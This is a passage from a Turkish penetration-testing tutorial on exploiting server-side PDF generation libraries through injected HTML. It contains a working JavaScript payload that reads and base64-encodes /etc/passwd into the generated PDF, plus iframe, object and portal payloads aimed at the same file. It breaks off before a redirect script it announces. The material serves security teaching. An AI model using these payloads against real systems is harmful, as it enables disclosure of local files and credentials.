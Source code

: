 Ancak, bunu yapmak, **PDF page**'ine sığmayan tek bir uzun satır oluşturur. Genellikle, **PDF generation library** satır sonları eklemez, bu da satırın sayfanın sonuna gelmeden kesilmesine yol açar:

![Pasted image 20250213191522.png](/img/user/resimler/Pasted%20image%2020250213191522.png)

**Payload**'ımızı, **PDF page**'ine sığması için her 100 karakterde bir **linebreak** enjekte edecek şekilde kolayca değiştirebiliriz:

```html
<script>
	function addNewlines(str) {
		var result = '';
		while (str.length > 0) {
		    result += str.substring(0, 100) + '\n';
			str = str.substring(100);
		}
		return result;
	}

	x = new XMLHttpRequest();
	x.onload = function(){
		document.write(addNewlines(btoa(this.responseText)))
	};
	x.open("GET", "file:///etc/passwd");
	x.send();
</script>
```

Bunu yaptıktan sonra, dosyayı sorunsuz bir şekilde alabiliriz. Artık **base64-encoded** veriyi kopyalayıp, **linebreak**'leri göz ardı eden herhangi bir araçla, örneğin **[CyberChef](https://gchq.github.io/CyberChef/)** ile çözebiliriz:

![Pasted image 20250213191613.png](/img/user/resimler/Pasted%20image%2020250213191613.png)

#### Without JavaScript Execution

Eğer **backend** **injected JavaScript** kodumuzu çalıştırmazsa, local dosyaları görüntülemek için başka **HTML tags** kullanmamız gerekir. Aşağıdaki **payload**'ları deneyebiliriz:

```html
<iframe src="file:///etc/passwd" width="800" height="500"></iframe>
<object data="file:///etc/passwd" width="800" height="500">
<portal src="file:///etc/passwd" width="800" height="500">
```

Ancak, bunu test ortamımızda yapmak, sadece boş bir **iframe**'in görüntülenmesine yol açar:

![Pasted image 20250213191653.png](/img/user/resimler/Pasted%20image%2020250213191653.png)

Neyse ki, **iframes** ile kombinasyon halinde yapabileceğimiz bir başka numara daha var. Daha önce **SSRF** bölümünde tartışıldığı gibi, bazı **PDF generation libraries** isteklerin yanıtlarını **iframe**'lerde görüntüler. Ancak, yukarıdaki ekran görüntüsünde de görebileceğimiz gibi, bazen **iframe**'leri kullanarak dosyalara doğrudan erişim sağlayamayız. Yine de, **src attribute**'unu kullanarak, gelen istekleri local bir dosyaya yönlendiren ve kontrolümüz altındaki bir sunucuya işaret eden bir çözüm kullanabiliriz. Eğer **library** yanlış yapılandırılmışsa, dosyayı görüntüleyebilir. Bunu yapmak için sunucumuzda aşağıdaki **PHP script**'ini çalıştırabiliriz. Bu script, gelen tüm istekleri bir **HTTP 302 redirect** yanıtıyla karşılar ve **Location header**'ını **file protocol** kullanarak local bir dosyaya ayarlar:
